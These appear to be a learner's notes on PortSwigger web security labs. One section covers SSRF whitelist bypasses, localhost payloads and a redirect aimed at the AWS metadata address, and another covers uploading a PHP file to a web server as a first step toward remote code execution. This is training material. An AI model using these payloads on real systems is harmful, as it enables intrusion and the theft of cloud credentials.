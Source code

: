 •	Lab 6: SSRF with whitelist-based input filter
o	Here we can use @ bcz it whitelisted stock.weliketoshop.net. that mean it must be there, we can’t remove.
	http://<burpcoll>@stock.weliketoshop.net/
o	can append # or %2523 double encode
	http://<burpcoll.net>%2523@stock.weliketoshop.net
o	If it’s SSRF then we can try
	http://127.0.0.1%2523@stock.weliketoshop.net/admin/delete?username=carlos

•	TIP: PayloadsAllTheThings / Server-Side Request Forgery | GitHub
o	Payloads with localhost
	http://127.0.0.1:80
	http://127.0.0.1:443
	http://127.0.0.1:22
	http://0.0.0.0:80
	http://0.0.0.0:443
	http://0.0.0.0:22
	http://localhost:80
	http://localhost:443
	http://localhost:22
o	Bypass localhost with a domain redirection
	http://customer1.app.localhost.my.company.127.0.0.1.nip.io
	http://customer1.app.localhost.my.company. 169.254.169.254.nip.io (for AWS)
o	Bypass using enclosed alphanumeric
	Unicode Text Converter (qaz.wtf)
	Encode domain name, and try, sometimes 
•	Burp Collaborator Everywhere (Extension)
o	Install in from Extender > BApp Store (Only for Pro)
o	To use it, crawl the target website manually. Findings will be presented in the 'Issues' tab. Wait for HTTP ping back request, can also send it to Repeater.
•	Lab: Blind SSRF with Shellshock exploitation
o	Answer: OS user: peter-8bmoSl

*ATTACK*

File Upload Vulnerability
When a web server allows users to upload files to its filesystem without sufficiently validating things like their name, type, contents, or size.

•	STEPS:
1.	Manually browsing webapp
2.	Find file upload feature
3.	Or use upload Scanner
4.	Exploit

Upload Scanner: BurpSuite Professional Extender use to find vulnerabilities related to file upload functionalities.


•	PORTSWINGER LABS: File Upload Vulnerability

•	Lab 1: Remote code execution via web shell upload
o	Mostly can find file upload feature after login in account.
o	Here, try to create shell.php file contain simple code.
	<?php phpinfo()?> save it as .php
•	Outputs a large amount of information about the current state of PHP.
o	Here, we are uploading php file instead image.
	After uploading, click on open image in new tab
•	We will see PHP information page.
o	If we able to upload .php files, can execute RCE.
